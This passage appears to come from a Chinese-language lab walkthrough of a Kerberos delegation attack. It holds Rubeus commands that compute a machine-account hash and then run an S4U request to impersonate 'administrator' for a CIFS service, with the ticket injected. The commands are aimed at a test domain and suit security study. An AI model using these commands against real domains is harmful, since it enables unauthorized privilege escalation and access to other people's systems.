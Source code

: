 
```bash
Rubeus.exe hash /user:evilsystem /password:evil /domain:hacke.testlab
```

[![](assets/1705982146-70335b1b675ed09302dbbf566788d666.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120223918-b13179be-b7a1-1.png)  
Step 3：使用 rebues 请求的白银票据

```bash
Rubeus.exe s4u /user:evilsystem$ /rc4:B1739F7FC8377E25C77CFA2DFBDC3EC7 /impersonateuser:administrator /msdsspn:cifs/win7-test /ptt
```
